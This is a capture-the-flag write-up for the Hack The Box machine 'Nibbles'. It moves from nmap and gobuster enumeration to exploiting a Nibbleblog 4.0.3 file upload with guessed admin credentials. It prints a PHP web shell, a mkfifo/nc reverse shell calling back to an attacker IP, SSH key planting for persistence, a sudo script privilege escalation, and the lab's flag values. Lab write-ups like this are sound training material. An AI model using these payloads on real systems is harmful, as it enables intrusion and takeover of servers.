




## Enumeration

### nmap

=== "initial"

    ``` hl_lines="6 11"
    # Nmap 7.92 scan initiated Sat Sep 18 01:45:07 2021 as: nmap -sC -sV -oA nmap/initial_scan 10.129.157.153
    Nmap scan report for 10.129.157.153
    Host is up (0.038s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sat Sep 18 01:45:16 2021 -- 1 IP address (1 host up) scanned in 8.75 seconds

    ```

=== "extended"

    ```
    # Nmap 7.92 scan initiated Sat Sep 18 01:52:43 2021 as: nmap -p- -oA nmap/extended_scan 10.129.157.153
    Nmap scan report for 10.129.157.153
    Host is up (0.040s latency).
    Not shown: 65533 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Sat Sep 18 01:53:01 2021 -- 1 IP address (1 host up) scanned in 17.83 seconds
    ```


### Manual footprinting

#### Banner grabbing

```
bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> curl -IL http://10.129.236.159/nibbleblog
HTTP/1.1 301 Moved Permanently
Date: Sat, 18 Sep 2021 18:48:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://10.129.236.159/nibbleblog/
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Sat, 18 Sep 2021 18:48:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=u4310id4atuch91scaqnm981s6; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```


#### whatweb

```bash
bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> whatweb http://10.129.236.159/nibbleblog

http://10.129.236.159/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.159], RedirectLocation[http://10.129.236.159/nibbleblog/], Title[301 Moved Permanently]

http://10.129.236.159/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.159], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]

```

#### SSL

Not applicable

#### robots.txt

No robots.txt

#### Source code



#### Other

Found version displaying /nibbleblog/README



```xml hl_lines="3"
<?xml version="1.0" encoding="UTF-8"?>
<users>
   <user username="admin">
      <id type="integer">0</id>
      <session_fail_count type="integer">0</session_fail_count>
      <session_date type="integer">1514544131</session_date>
   </user>
   <blacklist type="string" ip="10.10.10.1">
      <date type="integer">1512964659</date>
      <fail_count type="integer">1</fail_count>
   </blacklist>
</users>

```

We got username **`admin`**.

### Web Footprinting

#### Directory

Since we have the directory `nibbleblog` from the source code, we do a dir scan on the directory instead of the main directory (looking for php,html and txt as well).

``` hl_lines="16"
bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> gobuster dir -u http://10.129.236.159/nibbleblog -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -o gobuster/dirscan -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.236.159/nibbleblog
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/09/18 21:33:21 Starting gobuster
===============================================================
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/install.php (Status: 200)
/content (Status: 301)
/languages (Status: 301)
/sitemap.php (Status: 200)
/index.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/COPYRIGHT.txt (Status: 200)
/LICENSE.txt (Status: 200)
===============================================================
2021/09/18 21:37:52 Finished
===============================================================
```

Interesting directories: **/admin**

#### Subdomains (with DNS)

Not applicable

#### Subdomains (vhost)

Not applicable

## Exploitation Research

### searchsploit

```shell hl_lines="7"
┌─[root@parrot]─[/home/user]
└──╼ #searchsploit nibbleblog
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections        | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

**RCE** exploit detected. Authorization required. metasploit exploit available as well. 
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6967](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6967)
## Exploitation

- http://10.129.200.170/nibbleblog/admin.php : user: admin | pass: nibbles

- Uploading test payload thru the my_image plugin.

    `#!php <?php echo system($_REQUEST['cmd']); ?>`

    

- The plugin saves the "image" in the content/private/plugins/my_images folder with the name image.php

    

- Now we upload the php reverse shell 
```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.188 1234 >/tmp/f"); ?>`
```
- On the attacker machine we start a stabilized shell

    ```shell
    stty raw -echo; (echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo ""; echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'; echo reset; echo ;cat) | nc -lvnp 1234
    ```

- In the home directory we find the user nibbler  and the user flag

    ``` 
    nibbler@Nibbles:/home/nibbler$ ls -al 
    nibbler@Nibbles:/home/nibbler$ ls -al
    total 20
    drwxr-xr-x 3 nibbler nibbler 4096 Mar 12  2021 .
    drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
    -rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
    drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
    -r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
    -r-------- 1 nibbler nibbler   33 Mar 12  2021 user.txt
    nibbler@Nibbles:/home/nibbler$ cat user.txt 
    79c03865431abf47b90ef24b9695e148
    ```

- Interesting file is personal.zip, unzip it. `sudo -l` shows us wie can execute the monitor.sh with root privileges

    ```
    nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
    Archive:  personal.zip
        creating: personal/
        creating: personal/stuff/
        inflating: personal/stuff/monitor.sh  
    nibbler@Nibbles:/home/nibbler$ sudo -l
    Matching Defaults entries for nibbler on Nibbles:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    nibbler@Nibbles:/home/nibbler$
    ```

### Create ssh keys and login with ssh

Since the reverse shell is extremely unstable, we create a ssh shell.

- Create a private-public key pair on the attacker machine	

    ```
    bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> ssh-keygen -f keys
    Generating public/private rsa key pair.
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in keys
    Your public key has been saved in keys.pub
    The key fingerprint is:
    SHA256:XextmEmLuQnFrvYikrv7ObpB/ucKIig78Do2Pp1PRqo bonzo@srv001.bonzonet.test
    The key's randomart image is:
    +---[RSA 3072]----+
    |                 |
    |         . .     |
    |          o +    |
    |         + * *   |
    |    ..  S = * o  |
    |o  oo    o o .   |
    |=.o.=+  o o      |
    |+*o+=+ooo.       |
    |=Eo BX=*...      |
    +----[SHA256]-----+
    ```

- Create the folder `.ssh` in the folder `/home/nibbler` on the victim machine and create the authorized_keys file

    ```
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0TbaBlftemYs6DxLDOeRRcpPsi2BwjvbqebbE48rXwuucGB3moCuZepxpzxkUlFtn/JsSLOfX/WGH6AaSeoQrEOIgtyHgZEsrM6QbGeZdQbxmoX6y1c3iZ2jj6jUZ92jIC/xMHIyvxqbG+um7Dl/j0dqj1dwInrswYaCmoPxpTPUJoQ5ExgMTDby3ZPTajLNrwqwIaQRDRShFXaOeiB920g9FeUmU8x0bYCSkw6UIy5VwQFzPD4+fiJ2BlGK+7Bcz6gDMlnZyNOSWmMzV+oAo8k38p21KqJkJ2wanj0jmLOx6nmFJGoPY3IqcbrEGbTm+kD61Kxby2JCUDIZM9in/psHxkwF/L91T/SRUhjd2ABXijAmY1TuVnha4NNSwiSC1CCxRq4/JKAuO6Qvv1pSyqB/dD5GcB8s97UAqyZ18XUEjG+9C0Heq8OxRNdZBtG+4CwjClmXQ6PZswPqKQLNl13BDxaBLoyevTILYlsiINBNFz5bM+qQP/XXu09yrk78= bonzo@srv001.bonzonet.test" >> authorized_keys
    ```

- change the ownership of the `keys` file on the attacker machine a connect via ssh

    ```
    bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> ssh nibbler@10.129.200.170 -i key 
    The authenticity of host '10.129.200.170 (10.129.200.170)' can't be established.
    ECDSA key fingerprint is SHA256:6Xub2G5qowxZGyUBvUK4Y0prznGD5J2UyeMhJSdCZGw.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.129.200.170' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-104-generic x86_64)
    
    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage
    
    291 packages can be updated.
    197 updates are security updates.
    ... SNIP
    ```


## Privilege Escalation

-  With `sudo -l` we check if there are any commands we can execute with root privileges without been asked for a password

    ```
    nibbler@Nibbles:~/personal/stuff$ sudo -l
    Matching Defaults entries for nibbler on Nibbles:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    ```

- We can see that `monitor.sh` can be executed without password (`monitor.sh` is in the `personal.zip` file in the home folder of the `nibbler`user )

- We edit the `monitor.sh` adding a simple `echo "/bin/bash -i" >> monitor.sh` 

- Executing `sudo ./monitor.sh` in the folder where the `monitor.sh` resides, we get the root shell

    ```
    nibbler@Nibbles:~/personal/stuff$ sudo ./monitor.sh 
    root@Nibbles:~/personal/stuff# 
    ```

- We get the root flag from the root folder

    ```
    root@Nibbles:~/personal/stuff# cd /root/
    root@Nibbles:/root# ls -al
    total 28
    drwx------  4 root root 4096 Mar 12  2021 .
    drwxr-xr-x 23 root root 4096 May 24 12:11 ..
    -rw-------  1 root root    0 Dec 29  2017 .bash_history
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    drwx------  2 root root 4096 Dec 10  2017 .cache
    drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    -rwx------  1 root root   33 Mar 12  2021 root.txt
    root@Nibbles:/root# cat root.txt 
    de5e5d6619862a8aa5b9b212314e0cdd
    root@Nibbles:/root# 
    ```

  

## Loot

MYIP: 10.10.15.173

RHOST: 10.129.157.153

OS: Ubuntu 16.04.7 LTS (Xenial Xerus)

### Services 

| Name    | Version |
| ------- | ------- |
| OpenSSH | 7.2p2   |
| Apache  | 2.4.18  |

Found interesting subdirectory: **/nibbleblog/**

### Apps 

| Name       | Version | URL                         | Exploit |
| ---------- | ------- | --------------------------- | ------- |
| nibbleblog | v 4.0.3 | https://www.nibbleblog.com/ | yes     |

Found interesting subdirectory: **/nibbleblog/**

Found interesting subdirectories and files:  **/nibbleblog/admin**, **/nibbleblog/content/**, **/nibbleblog/plugins/**, **/nibbleblog/themes/**, **/nibbleblog/languages/**,  **/nibbleblog/README**

### Users

| username | password | other                                      |
| -------- | -------- | ------------------------------------------ |
| admin    | nibbles  | got through manually out several passwords |

### Flags

| Flag | Value                            |
| ---- | -------------------------------- |
| user | 79c03865431abf47b90ef24b9695e148 |
| root | de5e5d6619862a8aa5b9b212314e0cdd |
